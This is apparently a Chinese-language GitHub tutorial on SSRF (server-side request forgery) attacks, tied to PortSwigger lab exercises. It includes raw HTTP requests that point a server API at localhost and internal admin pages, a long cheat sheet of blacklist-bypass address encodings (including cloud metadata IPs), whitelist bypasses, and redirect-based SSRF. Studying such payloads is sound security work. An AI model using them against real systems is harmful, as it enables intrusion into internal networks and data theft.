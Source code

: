 # SSRF攻击方式汇总
> 关于SSRF的靶场通关笔记也以及完成，详见链接：[SSRF PortSwigger靶场通关笔记](https://github.com/shungli923/WowBigBug/blob/main/%E9%9D%B6%E5%9C%BA%E6%94%BB%E7%95%A5/SSRF%20PortSwigger%E9%9D%B6%E5%9C%BA%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.md)

## 原理

涉及到SSRF的地方往往与公司的整个内网有关，因此涉及到SSRF的漏洞往往都有还不错的危害评级。

如果把存在SSRF攻击面的机器比作公司大楼保安.

第一种SSRF就好比，攻击者穿着外卖员的衣服跟保安说要进去送个外卖，然后保安相信了，这个时候攻击者就可以在公司大楼内部到处闲逛，这种就属于危害级别最高的SSRF；

第二种SSRF是公司给保安交代了明确规定外来人员不准进入公司大楼，这个时候外卖员跟保安说去跟我带个信，说一声某人外卖到了，然后保安问了说有就是这个人确实点了外卖，说没有就说明这个人没有点外卖或者说没有这个人；

第三种SSRF就更难了，保安收到了公司消息说是不准外来人员进入大楼，那外卖员让保安带个信，问这个人在不在，在就下来拿外卖，然后又多问了一嘴，问从哪里下来的，大概要多久才能到这里，保安觉得没啥大不了问了就消息一并告诉他了。

SSRF的全称是服务器端请求伪造（Server-side request forgery），通常情况下他的起因是公司的某些服务器因为需要长期和外界网络进行信息交互，对外界的某些请求需要在公司内部其他服务器上进行查询，同时因为该机器需要保持与外界的交流，所以该机器对外界的消息传递是不得不接受的，而因为某些配置或者某些精巧的绕过手法使得攻击者的意图隐藏在了看似正常的消息传递环节里。而其他服务器在进行查询时返回了攻击者的期望内容，因此就产生了SSRF攻击。

## SSRF攻击服务器本机

在某些业务情况下，用户发起请求时服务器需要通过其内的api接口对信息进行访问，该接口由于其可以对输入url进行解析请求,并对请求结果返回，因此可以进行SSRF攻击，如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

将 api 处内容换位本机地址：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

如果服务器在对localhost内容进行请求，则顺利构成SSRF攻击。

## SSRF内网漫游

与上图一样，如果将请求的内容换成如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.1.1/admin
```

如果将上述内容 localhost 改为内网地址，在 burp 的intruder模块对内网地址进行爆破，对存活主机进行目录爆破，即可实现内网漫游。

## 黑名单绕过

上述两种SSRF可以说是非常理想的场景了，然而事实是，在如今的实际业务场景中几乎不会出现如此理想的攻击环境，往往存在各种的waf、行为感知、黑名单、百名单等进行攻击阻断

那么当127.0.0.1被禁止 了该如何处理？

以下都是可以尝试的替换方案：

```http
# Localhost 绕过
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://0
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR 绕过
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# 点号绕过
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# 十进制 绕过
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# 八进制 绕过
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# 十六进制绕过
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# 也可以尝试混合不同的绕过方式，可以使用如下网站借助完成：
# https://www.silisoftware.com/tools/ipconverter.php

# 比较少见的绕过方式
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS解析绕过
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

## 白名单绕过

白名单的主要绕过方式来自于各设备的规律规则没有对URL的规范贯彻，主要就是 `@` 和 `#` 这两个符号：如下，其中一个 `url` 是白名单要求的 `url` ，另一个 `url` 是我们需要请求的 `url` ，这俩 `url` 随便顺序组合（最好都尝试），然后中间用 `@`、`#`、`@#`、`#@` 进行链接，甚至对各个符号进行一次编码、二次编码在进行拼接，甚至在`@#`和`#@`这种情况下对其中一个进行一次、二次编码之后再进行拼接。对，白名单就是这样进行绕过。

```txt
https://URL_1@URL_2
```

## 重定向里的SSRF

通常出现在这样的业务场景里，利用方式如下：

get方式：`/product/nextProduct?currentProductId=6&path=http://192.168.1.1/admin`

post方式：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.1.1/admin
```

## Blind SSRF

Blind SSRF的发现方式通常都是将自己vps的地址放在可能存在攻击点的地方，然后监听vps相应端口，等待攻击完成后看是否有收到像一个请求。从而判定是否存在Blind SSRF。

## Blind SSRF打出危害

由于Blind SSRF没有回显，因此相关的可以利用的价值极低，不过最近我发现了一个技术叫shellshock攻击的技术可以通过Blind SSRF拿出数据，见 [链接](https://github.com/shungli923/WowBigBug/blob/main/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/ShellShock%20%E6%BC%8F%E6%B4%9E%E7%AE%80%E8%BF%B0.md)。
